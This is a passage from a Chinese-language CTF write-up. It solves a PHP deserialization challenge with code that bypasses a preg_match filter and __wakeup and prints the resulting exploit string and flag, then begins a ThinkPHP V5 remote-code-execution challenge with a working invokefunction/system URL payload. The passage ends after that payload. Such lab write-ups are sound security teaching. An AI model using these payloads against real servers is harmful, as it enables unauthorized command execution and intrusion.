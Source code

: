 ![image-20201202100810919](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202100810919.png)

需要以下三个步骤

1、$file改成fl4g.php；

2、绕过：preg\_match\('/\[oc\]:\d+:/i', $var\)

3、跳过\_\_wakeup\(\)。

```text
<?php
class Demo {
    private $file = 'fl4g.php';//$file改成fl4g.php
}

$a= serialize(new demo);
$a= str_replace('O:4', 'O:+4',$a);//绕过preg_match
$a= str_replace(':1:', ':2:',$a);//绕过wakeup
echo base64_encode($a);
?>
```

生成Exp

![image-20201202104917993](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202104917993.png)

```text
TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
```

将其作为var值用get方法提交

![image-20201202105011931](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202105011931.png)

得到flag

```text
ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}
```

## 4、php\_rce

![image-20201202105237550](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202105237550.png)

环境为ThinkPHP V5

![image-20201202114841054](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202114841054.png)

网上查了一下，发现该版本存在rce远程执行漏洞，使用如下payload查看当前目录

```text
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls
```

![image-20201202115316350](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202115316350.png)
